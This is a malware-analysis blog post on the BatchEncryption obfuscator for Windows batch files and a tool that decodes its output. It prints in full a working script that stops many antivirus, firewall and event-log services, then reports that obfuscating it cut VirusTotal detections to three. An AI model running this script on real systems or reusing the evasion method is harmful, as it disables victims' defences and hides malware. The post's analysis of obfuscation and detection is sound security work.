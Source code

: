 +++
title = "Exploring the BatchEncryption tool (and its deobfuscator) by gwsbhqt@163.com "
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["BatchEncryption","UnJlaive","obfuscation"]
categories = ["malware"]
ShowToc = false
author = ["connar"]
+++

## What is the BatchEncryption tool
The BatchEncryption tool is a tool used for obfuscating batch files. It is rather one of the most uncommon ones since it combines known and custom environment variable encodings to obfuscate the script. The way it works is it sets a randomly generated dictionary into a custom envar which is just a single quote ("'"). It then encodes it with existing environment variable substrings and then takes the remainder of the command using substrings of the custom environment variable declared previously.

The use of this tool was seen back in 2017 in the *Jawlan and Suriya.doc* (SHA-256: 761483906b45fad51f3c7ab66b1534dee137e93a52816aa270bc97249acb56d0) and has almost unknown at the time, with only 3 google search results. Now it has started to pop up more (mainly in .cn forums).

An example of a batch file obfuscated with BatchEncryption can be seen below:  
![example](/static/posts/BatchEncryption/example.png)


The nice thing about this tool is that still in this day, it manages to get low AV detection in VT. Let's take a .bat sample that disables multiple different AV engines:
```bat
set ii=ne
set ywe=st
set ury=t
set iej=op
set jt53=Syma
set o6t=nor
set lyd2=fee
set h3d=ton
set gf45=ntec
set own5=McA
net stop "Security Center" /y
net stop "Automatic Updates" /y
net stop "Symantec Core LC" /y
net stop "SAVScan" /y
net stop "norton AntiVirus Firewall Monitor Service" /y
net stop "norton AntiVirus Auto-Protect Service" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "McAfee Spamkiller Server" /y
net stop "McAfee Personal Firewall Service" /y
net stop "McAfee SecurityCenter Update Manager" /y
net stop "Symantec SPBBCSvc" /y
cls
net stop "Ahnlab Task Scheduler" /y
net stop navapsvc /y
net stop "Sygate Personal Firewall Pro" /y
net stop vrmonsvc /y
net stop MonSvcNT /y
net stop SAVScan /y
net stop NProtectService /y
net stop ccSetMGR /y
net stop ccEvtMGR /y
net stop srservice /y
net stop "Symantec Network Drivers Service" /y
net stop "norton Unerase Protection" /y
net stop MskService /y
net stop MpfService /y
net stop mcupdmgr.exe /y
net stop "McAfeeAntiSpyware" /y
net stop helpsvc /y
net stop ERSvc /y
net stop "*norton*" /y
net stop "*Symantec*" /y
net stop "*McAfee*" /y
cls
net stop ccPwdSvc /y
net stop "Symantec Core LC" /y
net stop navapsvc /y
net stop "Serv-U" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "Symantec AntiVirus Client" /y
net stop "norton AntiVirus Server" /y
net stop "NAV Alert" /y
net stop "Nav Auto-Protect" /y
cls
net stop "McShield" /y
net stop "DefWatch" /y
net stop eventlog /y
net stop InoRPC /y
net stop InoRT /y
net stop InoTask /y
cls
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "norton AntiVirus Corporate Edition" /y
net stop "ViRobot Professional Monitoring" /y
net stop "PC-cillin Personal Firewall" /y
net stop "Trend Micro Proxy Service" /y
net stop "Trend NT Realtime Service" /y
net stop "McAfee.com McShield" /y
net stop "McAfee.com VirusScan Online Realtime Engine" /y
net stop "SyGateService" /y
net stop "Sygate Personal Firewall Pro" /y
cls
net stop "Sophos Anti-Virus" /y
net stop "Sophos Anti-Virus Network" /y
net stop "eTrust Antivirus Job Server" /y
net stop "eTrust Antivirus Realtime Server" /y
net stop "Sygate Personal Firewall Pro" /y
net stop "eTrust Antivirus RPC Server" /y
cls
net stop netsvcs
net stop spoolnt
```

The VT result of this is the following:  
![example](/posts/BatchEncryption/VT_plain.png)
(I got to admin I was expecting more).

Now let's use the BatchEncryption tool to obfuscate our sample and load it again:
![example](/posts/BatchEncryption/obfuscated_sample.png)

In just a text editor we can't really see what's going on because of the encoding used, but if we load it for example in cyberchef, it gets converted to utf8 and thus we can see readable chars. Anyways, we can see that indeed a lot of stuff is going on. Custom, existing envars, caret symbol for extra obfuscation etc. We also notice a header on top, which is the author of the program (gwsbhqt@163.com). Let's load it to VT and watch what happens:  
![example](/posts/BatchEncryption/VT_obfuscated.png)

We successfully reduced our results to only 3! For any of you wondering what would happen if we had removed the header of the author and load it again, it would give the same results. 

Let's now see how we can deobfuscate samples obfuscated with this technique.

## Batch-Encryption-DeCoder
Luckily for us, there is already a tool for this purpose, which can be found here:
- https://github.com/cnHopeStudio/Batch-Encryption-DeCoder

We need to build this tool to get the final executable, which when run, gives us the original batch file: 

![example](/posts/BatchEncryption/using_the_deobfuscator.png)


**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://i.blackhat.com/briefings/asia/2018/asia-18-bohannon-invoke_dosfuscation_techniques_for_fin_style_dos_level_cmd_obfuscation-wp.pdf">blackhat: <i>Exploring the Depths
of Cmd.exe Obfuscation and Detection Techniques</i></a></li>
        <li> [2] <a href="https://blog.csdn.net/Hunter98234/article/details/108672926">Amit: <i>Recipient batch processing documents confused by BatchEncryption (version 201610)</i></a></li>
        <li> [3] <a href="http://www.bathome.net/thread-42106-1-2.html">gwsbhqt: <i>[Original Tool][201610]BatchEncryption-BatchEncrying Encryption</i></a></li>
    </ul>
</blockquote>